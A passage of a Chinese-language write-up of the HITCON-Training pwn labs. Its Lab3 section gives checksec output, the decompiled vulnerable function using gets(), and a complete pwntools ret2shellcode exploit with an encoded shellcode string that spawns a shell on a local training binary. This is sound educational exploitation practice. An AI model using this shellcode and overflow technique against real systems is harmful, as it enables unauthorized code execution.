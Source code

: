 ```
[Finished in 0.1s]
```




## Lab2——orw ##

是手写汇编的练习，略。

## Lab3——ret2shellcode ##

### 防护 ###

未开启任何防护

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab3$ checksec ret2sc
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab3/ret2sc'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

### 分析 ###

顾名思义，该题是用ret2sc的方法。main函数中首先从stdin读入，往bss段上写了0x32字节，然后栈溢出返回到刚刚写的地址即可。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name:");
  read(0, &name, 0x32u);
  printf("Try your best:");
  return (int)gets(&s);
}
```

exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./ret2sc")
p = process("./ret2sc")
# ref: https://www.exploit-db.com/shellcodes/41630
shellcode = "\xeb\x10\x5e\x31\xc9\xb1\x15\x8a\x06\x34\xe9\x88\x06\x46\xe2\xf7\xeb\x05\xe8\xeb\xff\xff\xff\xd8\x20\xb8\x81\xc6\xc6\x9a\x81\x81\xc6\x8b\x80\x87\x60\x0a\x83\xe2\xb1\x70\x24\x69"
bss_addr = 0x804a060
offset = 0x1c + 4
p.sendafter("Name:", shellcode)
# gdb.attach(p)
p.sendafter("Try your best:", offset *"a" + p32(bss_addr))

p.interactive()
```
